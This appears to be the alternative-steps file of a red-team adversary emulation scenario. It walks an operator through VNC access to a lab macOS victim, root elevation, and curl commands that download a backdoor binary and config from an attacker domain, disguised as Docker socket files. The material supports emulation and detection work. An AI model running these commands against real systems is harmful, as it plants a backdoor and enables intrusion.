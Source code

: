 # This is the ALTERNATIVE instruction set for the Scenario

Legend of symbols:

* :bulb: - callout notes
* :heavy_exclamation_mark: - extremely important note
* :arrow_right: - Switching to another session
* :o: - Sign out of something
* :biohazard: - Procedure for a given step

This document provides alternative steps to perform if a particular portion of a step fails to execute.
Due to the nature of the scenario and its components, not every part has a
corresponding alternative
step, and most alternative steps will sacrifice certain parts of the scenario,
in particular the emulated TTPs.

## Step 1 - Command and Control

### Ruby script failed to download FULLHOUSE.DOORED

#### :biohazard: Tier 1 Procedures

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate a
VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
`encryptpotter.net\ranrok`.

    | VNC server | Password |
    | -------- | -------- |
    | 10.55.4.50::5900 | test1234 |

  * At the macOS login screen, authenticate with the following credentials:

    | Username | Password |
    | -------- | -------- |
    | ranrok | Ladylike-Laugh |

* Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```bash
    sudo su
    ```

    | Password |
    | -------- |
    | Ladylike-Laugh |

* Execute curl to download the FULLHOUSE.DOORED binary and configuration

    ```zsh
    curl --output "/usr/local/bin/com.docker.sock" http://b0ring-t3min4l.kr/files/com.docker.sock
    curl --output "/usr/local/bin/com.docker.sock.lock" http://b0ring-t3min4l.kr/files/com.docker.sock.lock
    ```
